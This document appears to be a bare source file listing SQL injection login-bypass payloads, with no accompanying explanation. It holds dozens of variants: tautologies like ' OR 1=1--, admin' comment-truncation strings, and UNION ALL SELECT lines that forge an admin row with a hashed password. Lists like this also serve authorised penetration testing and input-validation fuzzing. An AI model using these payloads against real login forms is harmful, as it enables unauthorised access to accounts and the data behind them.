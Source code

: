 ' OR '1'='1
' OR '1'='1'--
' OR '1'='1'#
' OR 1=1
' OR 1=1--
' OR 1=1#
' OR 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin' or 1=1
admin') OR ('1'='1
admin') OR ('1'='1'--
admin') OR ('1'='1'#
admin') OR ('1'='1'/*
admin') OR '1'='1
admin') OR '1'='1'--
admin') OR '1'='1'#
admin') OR '1'='1'/*
admin'or 1=1 or ''=''
admin"or 1=1 or ""=""
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
' || 1=1;-- -
admin" OR "1"="1
admin" OR "1"="1"--
admin" OR "1"="1"#
admin" OR "1"="1"/*
admin") OR ("1"="1
admin") OR ("1"="1"--
admin") OR ("1"="1"#
admin") OR ("1"="1"/*
admin") OR "1"="1
admin") OR "1"="1"--
admin") OR "1"="1"#
admin") OR "1"="1"/*
